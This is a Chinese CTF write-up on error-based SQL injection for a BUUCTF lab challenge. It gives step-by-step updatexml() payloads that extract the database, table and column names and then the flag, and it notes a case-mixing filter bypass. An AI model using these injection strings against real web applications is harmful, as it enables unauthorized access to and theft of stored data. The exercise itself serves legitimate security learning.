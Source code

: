 ```yaml
---
title: 报错注入
createTime: 2025/02/15 17:19:47
permalink: /ctf/648zmd7h/
---
```

> 例题：BUUCTF N1BOOK \[第一章 web入门\]SQL注入-2
>
> 这题不加 `tips=1` 不会返回报错信息，就是盲注，以后再学

- [ ] 布尔盲注

## 查数据库名

```txt
name=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

结果：

![1737913223190](image/2.报错注入/1737913223190.png)

## 查表名

```txt
name=1' and updatexml(1,concat(0x7e,(Select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(Select group_concat(table_name) from information_schema.tables where table_schema=database())),1)
```

> 此处的 `Select` 使用了大小写绕过

结果：

![1737911630972](image/2.报错注入/1737911630972.png)

## 查字段名

```txt
name=1' and updatexml(1,concat(0x7e,(sELECT group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(sELECT group_concat(column_name) from information_schema.columns where table_name='fl4g')),1)
```

> 这里的 `fl4g` 是上一步查到的表名

结果：

![1737911820991](image/2.报错注入/1737911820991.png)

## 查字段内容

```txt
name=1' and updatexml(1,concat(0x7e,(sELECT flag from fl4g)),1)#
```

```sql
select * from user where name ='1' and updatexml(1,concat(0x7e,(sELECT flag from fl4g)),1)
```

> 这里的 `fl4g` 和 `fllllag` 是上两步查到的表名和字段名

结果：

![1737911974690](image/2.报错注入/1737911974690.png)

## ***Cracked.***
